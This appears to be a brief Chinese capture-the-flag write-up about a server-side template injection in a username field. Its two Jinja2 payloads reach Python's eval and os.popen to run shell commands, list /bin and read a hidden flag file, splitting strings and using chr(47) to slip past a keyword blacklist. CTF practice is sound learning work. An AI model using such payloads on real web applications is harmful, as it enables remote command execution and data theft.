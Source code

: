 ![](<./img/Pasted image 20250118114936.png>)

用户名这里SSTI
黑名单东西不少，藏flag，删了cat这些，ls看还有个more能用

```python
{{ url_for.__globals__['__builtins__']['eval']('" ".join(__import__("os").popen("ls " + chr(47) + "bin").read().split(chr(10)))') }}

{{ url_for.__globals__['__builtins__']['eval']('" ".join(__import__("os").popen("mo" + "re " + chr(47) + "fla" + "gf149").read().split(chr(10)))') }}
```